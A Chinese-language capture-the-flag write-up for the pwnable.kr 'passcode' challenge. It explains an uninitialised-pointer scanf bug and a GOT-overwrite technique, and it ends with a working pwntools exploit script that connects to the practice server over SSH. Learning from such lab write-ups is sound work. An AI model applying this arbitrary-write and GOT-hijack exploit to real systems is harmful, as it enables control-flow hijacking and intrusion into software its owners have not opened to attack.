





# pwnable.kr_passcode

题目类型：Pwn

自定义难度：★☆☆☆☆

## 1 题目



本题提供源码

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
        int passcode1;
        int passcode2;

        printf("enter passcode1 : ");
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 : ");
        scanf("%d", passcode2);

        printf("checking...\n");
        if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
                exit(0);
        }
}

void welcome(){
        char name[100];
        printf("enter you name : ");
        scanf("%100s", name);
        printf("Welcome %s!\n", name);
}

int main(){
        printf("Toddler's Secure Login System 1.0 beta.\n");

        welcome();
        login();

        // something after login...
        printf("Now I can safely trust you that you have credential :)\n");
        return 0;
}
```

二进制：

## 2 解题

先看看题目介绍

> Mommy told me to make a passcode based login system.
> My initial C code was compiled without any error!
> Well, there was some compiler warning, but who cares about that?

翻译：

> 妈妈让我做一个密码登录系统。
>
> 我的初始C代码被编译了，没有任何错误!
>
> 有一些编译器警告，但谁在乎呢?

ssh 看看题目吧。

```bash
ssh passcode@pwnable.kr -p2222 # pw:guest
```



运行程序后要求输入账号密码，应该是个溢出题吧，看看 `passcode.c`（源码在上面），这里校验通过即可，试试：

```c
if(passcode1==338150 && passcode2==13371337){
    printf("Login OK!\n");
    system("/bin/cat flag");
}
```


报错了，问题应该出在这里：

```c
scanf("%d", passcode1);

// 正确的写法
scanf("%d", &passcode1);
```

看看保护开启的情况：



保护开启的还是比较完善的，第一个输入点 `scanf("%100s", name);` 也限制了长度，一下子陷入了僵局 🤔，gdb 看看 `scanf` 到底写到了哪里吧。



这个应该是写入了 `0xffffcf94` 这个地址，找找这个地址是哪里来的吧。

```c
int main()
{
    printf("Toddler's Secure Login System 1.0 beta.\n");

    welcome();
    login();

    // something after login...
    printf("Now I can safely trust you that you have credential :)\n");
    return 0;
}
```

想了一下，`main` 函数中分别调用了 `welcome` 函数和 `login` 函数，这两个函数的调用栈深度是相同的，`login` 中局部变量 `passcode1` 和 `passcode2` 并未初始化，所以复用了 `welcome` 函数处理时栈帧中的数据。输入 100 字符的 name，查看 `edx` 验证一下：

```text
enter you name : AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYY
```



`passcode1` 对应的是最后 4 个字节，把这四个字节改为 `passcode1` 需要的地址，应该就可以了，`passcode2` 同理。

好吧，栈上的地址是动态的，这里不太好直接获取，看看能不能覆盖 `passcode1` 的初始值为其他可利用的点。

**这里可以覆盖为某一个地址，然后通过后面的 `scanf` 给这个地址写入任意值，这样可以达到任意一个地址写任意值的效果。**

这里学到了一个新的知识点：PLT 和 GOT。通过覆盖动态库的 GOT 表内地址，改变调用动态库时 `jmp` 的位置，就可以改变程序的运行流了。

## 3 EXP

```python
from pwn import *

session = ssh(host='pwnable.kr', port=2222, user='passcode', password='guest')
io = session.process('passcode', env={"PS1":""})

# io = process("./pwnable.kr_passcode.assets/passcode")
# io = gdb.debug('pwnable.kr_passcode.assets/passcode', '''
# break welcome
# continue
# ''')

receive = io.recvline() # "Toddler's Secure Login System 1.0 beta.\n"
padding = b'A' * 96 + p32(0x0804A004) + str.encode(str(0x080485E3))
io.sendline(padding)

io.interactive()
```

## 4 总结

**这里可以覆盖为某一个地址，然后通过后面的 `scanf` 给这个地址写入任意值，这样可以达到任意一个地址写任意值的效果。**

这是解题思路中的关键，以后作题，可以把能利用的点列一下。不然思路会很乱。

## 附录A：存疑1

1. pwntools `gdb.debug` 调试有问题，直接段错误。
2. pwntools io 接收总是有问题。
3. shellcode 中 `p32(0x080485E3)` 这样写步行，要用 `str.encode(str(0x080485E3))` 这种写法。